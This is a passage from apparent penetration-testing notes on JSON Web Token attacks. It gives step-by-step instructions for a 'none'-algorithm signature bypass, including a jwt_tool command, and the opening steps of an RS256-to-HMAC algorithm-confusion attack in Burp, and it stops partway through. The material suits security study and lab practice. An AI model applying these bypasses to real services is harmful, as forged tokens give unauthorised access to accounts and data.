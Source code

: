 ### Algorithm confusion attacks

****Symmetric vs asymmetric algorithms****

|Algorithm|Key used to sign|Key used to verify|
|---|---|---|
|Asymmetric (RSA)|Private key|Public key|
|Symmetric (HMAC)|Shared secret|Shared secret|

- **'none' Algorithm (CVE-2015-9235):**
    
    ```python
    1. Turn Intercept on in burp and Login to Web App
    2. Forward the request until you get JWT token
    3. Switch to JSON Web Token Tab or JOSEPH which also contains bypass
    4. Change "alg:" to None, none, NONE, nOnE "alg:none"
    		{
    		  "alg": "none",
    		  "typ": "JWT"
    		}
    5. Change the Payload and edit the signature to empty
    		Signature = ""
    6. Forward the Request. Done!
    
    OR 
    python3 jwt_tool.py JWT_HERE -X a
    If the page returns valid then you have a bypass - go tampering.
    ```
    
- **JWT authentication bypass via algorithm confusion**
    
    1. go to the standard endpoint `/jwks.json` OR `/.well-known/jwks.json` and observe that the server exposes a JWK Set containing a single public key.
        
        ```python
        {"keys":[{"kty":"RSA","e":"AQAB","use":"sig","kid":"73074f03-e068-4cee-b65d-c20462bb63fe","alg":"RS256","n":"z93g-LLs1HOfCA7pBj5eu43Kt-R4gVfJ2Wa8oCr8H31j7YUajf0Ypum6dSLER9Lw3YBzY6XjRKhGh_2T0bZjhqumi4gvwJmVMUWlbhcnH6Qvei9sqlC6isreOyewjwNvAal-taaq6eL7_jono4amdXQJ1LjYVnrhqRjkGtIF6Rg1wy361DjQact9dqal-dHzuImO0HcvWJK9-RsuYv5hrkKglysk948df-ylDqC4LSDVGut0DUPUJxXwWGFBhHlqJFEVPsC3yMUQ1shQQN9fzQ-8jFgFAzidthi53xykJS7J73y34iJ-ryYzce1uzl_SUnEl_b9f9GrTl4bF6g8hJw"}]}
        
        ```
        
    2. Copy the JWK object from inside the `keys` array. Make sure that you don't accidentally copy any characters from the surrounding array
        
    3. go to the **JWT Editor Keys** tab in Burp's main tab bar, Click **New RSA Key**.
        
    4. Right-click on the entry for the key that you just created, then select **Copy Public Key as PEM**.
        
    5. Use the **Decoder** tab to Base64 encode this PEM key, then copy the resulting string.
        
    6. Click **New Symmetric Key**. In the dialog, click **Generate** to generate a new key in JWK format
        